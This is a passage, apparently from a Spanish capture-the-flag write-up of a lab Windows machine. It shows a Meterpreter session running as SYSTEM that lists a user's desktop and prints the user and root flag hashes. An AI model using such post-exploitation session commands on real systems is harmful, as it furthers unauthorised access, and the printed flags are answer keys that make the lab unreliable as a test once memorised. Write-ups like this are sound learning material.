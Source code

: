 Soy el usuario con más privilegios; **NT AUTHORIRY\SYSTEM**.

```sh
(Meterpreter 1)(C:\WINDOWS\system32) > getuid
Server username: NT AUTHORITY\SYSTEM
```

Encuentro la primera flag en la ruta que se puede ver en el siguiente bloque:

```sh
(Meterpreter 1)(C:\Documents and Settings\john) > cd Desktop\\
(Meterpreter 1)(C:\Documents and Settings\john\Desktop) > ls
Listing: C:\Documents and Settings\john\Desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 07:19:49 +0100  user.txt

(Meterpreter 1)(C:\Documents and Settings\john\Desktop) > cat user.txt
e69af0e4f443de7e36876fda4ec7644f
```
Y por aquí la segunda flag, del usuario Administrator:

```sh
(Meterpreter 1)(C:\Documents and Settings\Administrator\Desktop) > cat root.txt
993442d258b0e0ec917cae9e695d5713
```

